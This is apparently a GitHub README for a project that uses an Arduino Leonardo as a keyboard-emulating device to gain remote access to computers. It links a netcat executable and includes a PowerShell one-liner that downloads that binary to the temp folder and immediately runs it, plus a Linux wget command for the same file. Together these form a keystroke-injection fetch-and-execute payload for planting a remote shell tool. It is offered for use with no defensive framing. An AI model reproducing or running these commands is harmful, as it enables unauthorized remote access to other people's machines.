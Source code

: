 <p align="center"><img src="Logo-small.png" alt="Mark Text" ></p>
<h1 align="center">Remote access using Arduino</h1>
<br>


##### Why we use Arduino Leonard ?

Because we need to access on keyboard so it depends on Arduino leonard. Also this project is very simple. You can design another creation algorithm

<!-- Downloads total -->

[NETCAT](https://github.com/s0l0n3t/netcat1221/raw/master/nc.exe)

```bash
For windows powershell: (new-object System.Net.WebClient).DownloadFile('netcat github url','%TEMP%\nc1221.exe'); Start-Process "%TEMP%\nc1221.exe"
linux: wget https://github.com/s0l0n3t/netcat1221/blob/master/nc.exe?raw=true
```
